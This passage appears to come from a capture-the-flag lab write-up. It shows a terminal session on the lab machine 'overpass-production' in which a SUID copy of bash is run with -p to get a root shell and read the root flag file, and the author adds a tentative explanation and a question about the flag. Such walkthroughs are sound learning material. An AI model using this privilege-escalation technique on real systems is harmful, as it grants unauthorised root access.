 Has SUID bit set, and can run as root.

So all we need to do is actually just run it:

james@overpass-production:/home/james$ ./.suid_bash -p         
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}

Reason: https://gtfobins.github.io/gtfobins/bash/#suid

Essentially, a local SUID copy of bash was kept with elevated privileges, and you can execute it at any time with elevated privileges using -p. (At least I think that's what it is).

Questions: What does -p do?
